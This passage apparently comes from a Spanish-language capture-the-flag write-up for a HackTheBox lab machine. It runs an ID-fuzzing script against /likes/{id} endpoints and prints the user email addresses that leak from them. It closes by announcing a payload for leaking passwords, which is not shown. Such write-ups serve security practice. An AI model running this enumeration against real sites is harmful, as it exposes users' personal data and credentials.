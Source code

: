 ```shell
python3 fuzzIDs.py
```

Info:

```
🔍 Buscador específico del perfil /profile/37
==================================================
[*] Escaneando endpoints /like/{id} (0-100) para perfil 37...

[*] Escaneando endpoints /likes/<built-in function id> (0-100) para perfil 37...
[+] ENCONTRADO: /likes/2 -> /profile/37 - title="hexhunter@ciphermail.com"
[+] ENCONTRADO: /likes/1 -> /profile/37 - title="zero_day@hushmail.com"
[+] ENCONTRADO: /likes/8 -> /profile/37 - title="bytebandit@exploitmail.net"
[+] ENCONTRADO: /likes/12 -> /profile/37 - title="codebreaker@ciphermail.com"
[+] ENCONTRADO: /likes/18 -> /profile/37 - title="trojanhorse@securemail.org"
[+] ENCONTRADO: /likes/17 -> /profile/37 - title="trojanhorse@securemail.org"
[+] ENCONTRADO: /likes/19 -> /profile/37 - title="aze@aze.fr"
[+] ENCONTRADO: /likes/23 -> /profile/37 - title="mikey@hacknet.htb"

============================================================
RESULTADOS - PERFIL 37 ENCONTRADO EN:
============================================================
Endpoint /likes/1 -> /profile/37 - title="zero_day@hushmail.com"
Endpoint /likes/12 -> /profile/37 - title="codebreaker@ciphermail.com"
Endpoint /likes/17 -> /profile/37 - title="trojanhorse@securemail.org"
Endpoint /likes/18 -> /profile/37 - title="trojanhorse@securemail.org"
Endpoint /likes/19 -> /profile/37 - title="aze@aze.fr"
Endpoint /likes/2 -> /profile/37 - title="hexhunter@ciphermail.com"
Endpoint /likes/23 -> /profile/37 - title="mikey@hacknet.htb"
Endpoint /likes/8 -> /profile/37 - title="bytebandit@exploitmail.net"

==================================================
BÚSQUEDA RÁPIDA ADICIONAL:
==================================================
[*] Búsqueda rápida del perfil 37 en endpoints /likes/...
✅ ENCONTRADO: /likes/1 -> /profile/37 - title="zero_day@hushmail.com"
✅ ENCONTRADO: /likes/2 -> /profile/37 - title="hexhunter@ciphermail.com"
✅ ENCONTRADO: /likes/8 -> /profile/37 - title="bytebandit@exploitmail.net"
✅ ENCONTRADO: /likes/12 -> /profile/37 - title="codebreaker@ciphermail.com"
✅ ENCONTRADO: /likes/17 -> /profile/37 - title="trojanhorse@securemail.org"
✅ ENCONTRADO: /likes/18 -> /profile/37 - title="trojanhorse@securemail.org"
✅ ENCONTRADO: /likes/19 -> /profile/37 - title="aze@aze.fr"
✅ ENCONTRADO: /likes/23 -> /profile/37 - title="mikey@hacknet.htb"

🎯 Búsqueda completada. Total de apariciones del perfil 37: 8
```

Vemos varios `correos` filtrados, ahora por ultimo vamos a intentar filtrar las contraseñas con este ultimo `payload`.

> payload (password)
